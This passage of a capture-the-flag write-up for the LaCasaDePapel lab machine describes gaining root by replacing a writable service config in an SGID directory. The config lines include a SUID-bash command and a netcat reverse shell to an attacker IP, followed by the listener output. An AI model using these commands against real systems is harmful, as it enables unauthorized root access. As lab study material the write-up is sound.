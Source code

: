 I run `ps` and see ` 5813 nobody    0:11 /usr/bin/node /home/professor/memcached.js`

So this script is probably being ran continuously.

We do not have permissions to edit the ini file, which seems to contain the code being ran. But if we see the permissions for the current folder, they are:

`drwxr-sr-x`

The `s` here signifies that the folder has a SGID bit set.

This means that all files created in this directory belong to the group that owns the directory. 

So since professor is in the group that owns the directory, the files belong to us. And although we cannot edit the file, we can delete it and replace it with our own.

```
lacasadepapel [~]$ rm memcached.ini
rm: remove 'memcached.ini'? yes
```

I change it to: 

```
lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = sudo chmod 4755 /bin/bash
lacasadepapel [~]$ ls -l /bin/bash
-rwxr-xr-x    1 root     root        715008 May  1  2018 /bin/bash
lacasadepapel [~]$ 
```

And I try `bash -p` to get a privileged root, but nothing happens.

So I delete it again and try:

```
[program:memcached]
command = sudo /usr/bin/nc 10.10.14.60 1337 -e /bin/sh
```
And after listening for a couple of seconds we get a root:

```
kali@kali:~/htb/LaCasaDePapel$ sudo nc -nlvp 1337
[sudo] password for kali: 
Listening on 0.0.0.0 1337
Connection received on 10.129.107.31 34729
whoami
root
```

## Comparing myself to the official writeup:

The QR code OTP does not work for the official writeup. It did for me, maybe an update?

they find the vsftp exploit and find the psy shell.

because they did not get the QR code OTP, the email with the confirmation URL does not exist.

So they had to export the certificate from the browser and generate a new certificate. The same thing I did after the first certificate did not import on firefox.
